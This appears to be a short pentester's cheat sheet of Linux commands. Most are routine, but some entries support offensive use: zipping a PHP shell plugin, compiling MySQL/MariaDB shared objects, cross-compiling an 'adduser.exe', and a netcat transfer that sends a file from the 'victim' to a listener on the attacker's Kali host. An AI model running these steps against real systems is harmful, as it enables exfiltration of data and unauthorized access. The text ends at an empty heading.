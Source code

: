#### Zipping a file

```
root@Red-hat:~$:sudo zip plugin-shell.zip plugin-shell.php
```

#### Creating hex dump of any file

```
root@Red-hat:~$:xxd -p file.exe | tr -d '\n' 
file.exe.hex
```

#### Compiling a shared object for MYSQL server with gcc: from C/C++ file to shared object.

```
root@Red-hat:~$: gcc -Wall -I/usr/include/mysql -I. -shared filename.c -o $(LIBDIR)/filename.so
```

#### Compiling a shared object for MariaDB server with gcc: from C/C++ file to shared object.

```
root@Red-hat:~$:gcc -Wall -I/usr/include/mysql -I. -shared filename.c -o $(LIBDIR)/filename.so
```

#### Replacing words in a file

```
root@Red-hat:~$: sed 's/Blackhat/Defcon/' myfile
```

#### Cross Compile a file on Linux

```
root@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Convert base64 zip file into its original form

```
root@kali:~$cat data.txt | base64 -d > documents.zip*
```

#### File Transfer with Netcat

On kali, setup a listner

```
root@kali:nc -lvp 444 > [filename.txt]
```

on the victim ssh

```
root@kali:nc -w 3 [kali ip] [port] < [filename.txt]
```

#### Counting words,lines and characters
